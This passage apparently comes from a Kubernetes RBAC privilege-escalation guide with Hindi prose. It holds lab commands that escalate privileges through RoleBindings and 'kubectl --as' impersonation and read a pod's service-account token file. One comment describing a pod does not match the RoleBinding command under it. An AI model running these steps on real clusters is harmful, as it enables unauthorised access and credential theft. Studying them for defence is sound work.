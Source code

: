 ```bash
resources: ["pods"]
verbs: ["get", "list", "delete", "patch", "create"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
name: test-rb2
subjects:
- kind: ServiceAccount
name: test-sa
apiGroup: ""
roleRef:
kind: Role
name: test-r2
apiGroup: rbac.authorization.k8s.io' | kubectl apply -f -

# Create a pod as user Test with the SA test-sa (privesc step)
echo "apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
name: test-r2
subjects:
- kind: ServiceAccount
name: test-sa2
apiGroup: ""
roleRef:
kind: Role
name: test-r2
apiGroup: rbac.authorization.k8s.io"| kubectl --as Test apply -f -

# Connect to the pod created an confirm the attached SA token belongs to test-sa
kubectl exec -ti -n default test-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/token | cut -d "." -f2 | base64 -d

# Clean the scenario
kubectl delete rolebinding test-rb
kubectl delete rolebinding test-rb2
kubectl delete role test-r
kubectl delete role test-r2
kubectl delete serviceaccount test-sa
kubectl delete serviceaccount test-sa2
```
### सीधे बाइंडिंग

"विशेषाधिकार उन्नयन निवारण और बूटस्ट्रैपिंग" अनुभाग में [https://unofficial-kubernetes.readthedocs.io/en/latest/admin/authorization/rbac/](https://unofficial-kubernetes.readthedocs.io/en/latest/admin/authorization/rbac/) में उल्लेख किया गया है कि यदि एक SA एक बाइंडिंग बना सकता है और रोल/क्लस्टर रोल पर स्पष्ट रूप से बाइंड अनुमतियाँ हैं, तो वह अनुमतियों के साथ रोल/क्लस्टर रोल का उपयोग करके बाइंडिंग बना सकता है जिसकी अनुमतियाँ उसके पास नहीं हैं।\
हालांकि, यह मेरे लिए काम नहीं किया:
```yaml
# Create 2 SAs, give one of them permissions to create clusterrolebindings
# and bind permissions over the ClusterRole "admin"
echo 'apiVersion: v1
kind: ServiceAccount
metadata:
name: test-sa
---
apiVersion: v1
kind: ServiceAccount
metadata:
name: test-sa2
---
```
